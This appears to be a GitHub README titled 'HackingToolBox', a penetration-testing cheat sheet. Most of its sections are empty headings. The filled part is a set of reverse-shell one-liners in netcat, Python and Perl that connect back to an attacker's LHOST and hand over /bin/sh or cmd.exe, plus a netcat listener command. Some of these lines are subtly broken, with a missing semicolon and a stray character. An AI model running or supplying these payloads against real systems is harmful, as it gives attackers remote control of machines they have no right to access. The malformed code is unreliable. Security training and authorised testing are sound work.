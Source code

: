 # HackingToolBox

**RHOST** : Ip address of the target machine  
**RPORT** : Listening port of the target machine  
**LHOST** : Ip address of the auditor computer  
**LPORT** : Listening port of the auditor computer  

## Énumération 
### Windows 
### Linux 
### Nmap
### FTP (File Transfer Protocol)
### SMB
### Web

## One-liner reverse shell
command to execute on the listener side to connect to the remote machine :
```bash
nc -lvp LPORT
```
### netcat
Linux : 
```bash
nc LHOST LPORT -e /bin/bash
```
Windows :
```bat
nc.exe LHOST LPORT -e cmd.exe
```
### python
Linux : 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("LHOST",LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Windows : 
```bat
C:\Python26\python.exe -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['C:\\WINDOWS\\system32\\cmd.exe','-i']);"
```
### perl
```perl
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")) if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### bash
### php
### ruby
### telnet
### socat
### java

## Exploitation
### msfvenom
### metasploit
### searchsploit

## Bruteforce
### John the ripper
### Hydra
